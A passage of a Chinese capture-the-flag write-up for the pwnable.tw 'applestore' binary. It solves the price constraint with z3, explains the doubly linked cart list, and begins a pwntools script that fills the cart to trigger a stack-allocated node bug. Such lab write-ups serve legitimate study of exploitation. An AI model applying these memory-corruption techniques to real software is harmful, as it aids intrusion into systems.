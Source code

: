 调用cart，可以打印购物的的内容，然后如果总价格为7174，则可以将1美元的iphone8添加到购物车里，v2存储asprintf出来的字符串地址，v3为价格。

触发需要总价格达到7174，iphone的售价分别是199，299，399，499，可以用z3求解

```python
from z3 import *
a,b,c,d=Ints('a b c d')
s=Solver()
s.add(a>0,b>0,c>0,d>0)
s.add(199*a + 299*b + 499*c + 399*d == 7174)
print(s.check())
print(s.model())
```

解得

```
sat
[b = 3, a = 16, c = 3, d = 4]
```

## 数据结构

本题设计了一个双链表，每个链表的节点是16字节，存在4个元素，分别为手机名字的字符串地址(&name)，手机价格(price)，链表前向指针(fd)，链表后向指针(bk)，理解这个数据结构是明白本题的关键。当已经加入了一些手机到购物车后，myCart这个位于bss段的节点，充当双链表的表头，其后的节点均为堆空间的内存块：

![](https://space.0bs3rver.workers.dev/0bs3rver/Picture/master//blogimg/pwnabletw-applestore-1.png)

然后是主要用到这个数据结构的几个函数：

- add: 完成双链表节点的插入
- delete: 完成双链表节点的删除
- cart: 完成双链表节点的遍历，打印每个节点的第一个元素指向的字符串
- checkout: 可以完成双链表节点的遍历，触发彩蛋可以完成一次双链表节点的插入，而且节点位于栈上

## 漏洞点

我们触发一下彩蛋

```python
from pwn import *
context(arch='i386',os='linux',log_level='debug')

debug = 1
if debug:
	elf = ELF("./applestore")
	libc = ELF("./libc-2.23.so")
	io = process("applestore")
else:
	elf = ELF("./silver_bullet")
	libc = ELF("./libc_32.so.6")
	io = remote("chall.pwnable.tw",10103)
	
add = '2';delete='3';cart='4';checkout='5'
def action(num,payload):
    io.sendlineafter('> ',num)
    io.sendlineafter('> ',payload)

for i in range(16):
    action(add,'1')
for i in range(3):
    action(add,'2')
for i in range(3):
    action(add,'3')
for i in range(4):
    action(add,'4')
action(checkout,'y')
```